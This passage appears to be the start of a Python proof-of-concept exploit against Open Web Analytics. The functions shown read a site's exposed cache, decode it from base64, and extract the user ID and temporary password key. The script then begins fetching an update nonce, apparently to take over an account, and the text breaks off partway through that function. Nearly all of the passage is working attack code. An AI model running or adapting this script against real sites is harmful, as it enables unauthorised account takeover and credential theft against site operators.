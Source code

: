 ----
### PoC

```python
import argparse
import requests
import base64
import re
import random
import string
import hashlib
from termcolor import colored

def print_message(message, type):
   if type == 'SUCCESS':
      print('[' + colored('SUCCESS', 'green') +  '] ' + message)
   elif type == 'INFO':
      print('[' + colored('INFO', 'blue') +  '] ' + message)
   elif type == 'WARNING':
      print('[' + colored('WARNING', 'yellow') +  '] ' + message)
   elif type == 'ALERT':
      print('[' + colored('ALERT', 'yellow') +  '] ' + message)
   elif type == 'ERROR':
      print('[' + colored('ERROR', 'red') +  '] ' + message)

def get_normalized_url(url):
   if url[-1] != '/':
      url += '/'
   if url[0:7].lower() != 'http://' and url[0:8].lower() != 'https://':
      url = "http://" + url
   return url

def get_proxy_protocol(url):
   if url[0:8].lower() == 'https://':
      return 'https'
   return 'http'

def get_random_string(length):
   chars = string.ascii_letters + string.digits
   return ''.join(random.choice(chars) for i in range(length))

def get_cache_content(cache_raw):
   regex_cache_base64 = r'\*(\w*=*)\*'
   regex_result = re.search(regex_cache_base64, cache_raw)
   if not regex_result:
      print_message('The provided URL does not appear to be vulnerable ...', "ERROR")
      exit()
   else:
      cache_base64 = regex_result.group(1)
   return base64.b64decode(cache_base64).decode("ascii")

def get_cache_username(cache):
   regex_cache_username = r'"user_id";O:12:"owa_dbColumn":11:{s:4:"name";N;s:5:"value";s:\d*:"([^"]*)"'
   return re.search(regex_cache_username, cache).group(1)

def get_cache_temppass(cache):
   regex_cache_temppass = r'"temp_passkey";O:12:"owa_dbColumn":11:{s:4:"name";N;s:5:"value";s:\d*:"([^"]*)"'
   return re.search(regex_cache_temppass, cache).group(1)

def get_update_nonce(url):
   try:
```